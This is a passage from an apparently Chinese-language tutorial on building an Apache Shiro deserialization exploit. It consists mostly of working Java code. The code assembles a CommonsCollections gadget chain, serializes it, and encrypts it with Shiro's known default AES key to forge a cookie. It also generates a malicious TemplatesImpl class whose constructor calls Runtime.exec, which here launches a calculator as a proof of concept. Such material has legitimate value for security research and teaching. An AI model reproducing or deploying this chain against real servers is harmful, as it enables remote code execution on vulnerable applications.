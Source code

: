 ```java
        Transformer faketransformer = new InvokerTransformer("getClass", null, null);
        // CC6pro
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, faketransformer);
        // key传入恶意TemplatesImpl对象
        TiedMapEntry tme = new TiedMapEntry(outerMap,obj);
        HashMap expMap = new HashMap();
        expMap.put(tme,"value");
        outerMap.clear();
        //将faketransformer改造，iMethodName换成newTransformer触发链子
        setFieldValue(faketransformer, "iMethodName", "newTransformer");

        // 生成序列化字符串
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        // shiro数据生成
        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.getDecoder().decode("kPH+bIxk5D2deZiIxcaaaA==");
        ByteSource ciphertext = aes.encrypt(barr.toByteArray(), key);
        System.out.printf(ciphertext.toString());
    }
}


```

最后我们再写个类去生成字节码去给TemplatesImpl加载

这里用到了`javassist`，这是一个字节码操纵的第三方库，可以帮助我将恶意类生成字节码再交给 TemplatesImpl

```
ClassPool pool = ClassPool.getDefault();
CtClass clazzz = pool.get("EvilTest");
byte[] code = clazzz.toBytecode();
```

然后再写一个恶意类，因为是要放入TemplatesImpl加载，所以得继承AbstractTranslet

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.IOException;

public class EvilTest extends AbstractTranslet {
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    public EvilTest() throws IOException {
        super();
        Runtime.getRuntime().exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");
    }
```